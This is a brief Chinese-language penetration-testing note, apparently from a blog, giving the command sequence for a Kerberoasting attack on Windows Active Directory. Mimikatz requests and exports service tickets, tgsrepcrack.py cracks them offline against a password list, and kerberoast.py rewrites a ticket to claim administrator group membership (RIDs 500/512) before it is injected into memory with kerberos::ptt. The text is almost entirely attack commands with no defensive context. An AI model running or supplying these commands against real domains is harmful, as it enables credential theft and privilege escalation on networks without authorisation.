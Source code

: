 ~~~
请求
mimikatz.exe "kerberos::ask /target:xxxx"
导出
mimikatz.exe "kerberos::list /export"
破解
python tgsrepcrack.py passwd.txt xxxx.kirbi
~~~

![](https://s4.ax1x.com/2022/01/17/7Un3m6.png)

~~~
重写
python kerberoast.py -p Password123 -r xxxx.kirbi -w PENTESTLAB.kirbi -u 500
python kerberoast.py -p Password123 -r xxxx.kirbi -w PENTESTLAB.kirbi -g 512

mimikatz.exe kerberos::ptt xxxx.kirbi #将生成的票据注入内存
~~~



tgsrepcrack.py脚本在忍者系统有或者在网上搜